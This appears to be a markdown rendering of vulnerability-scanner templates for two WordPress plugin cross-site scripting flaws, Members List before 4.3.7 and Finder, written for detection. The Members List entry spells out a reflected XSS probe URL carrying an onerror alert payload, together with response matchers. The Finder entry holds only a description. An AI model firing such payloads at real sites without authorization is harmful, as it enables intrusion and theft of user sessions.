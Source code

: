 
# WordPress Members List \<4.3.7 - Cross-Site Scripting

## Description

- WordPress Members List 4.3.7 does not sanitize and escape some parameters in various pages before outputting them back, leading to reflected cross-site scripting vulnerabilities.
- severity - medium
- tags - wp,wordpress,wp-plugin,xss,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/members-list/admin/view/user.php?page=%22%3E%3Cimg%20src%20onerror=alert(document.domain)%20x

### Matchers

**Type - word**

- part - body
- words
  1. ">\<img src onerror=alert(document.domain) x
  2. wrap tern-wrap
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Finder - Cross-Site Scripting

## Description

- WordPress Plugin Finder contains a cross-site scripting vulnerability via the order parameter. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,wp-plugin,packetstorm,wordpress
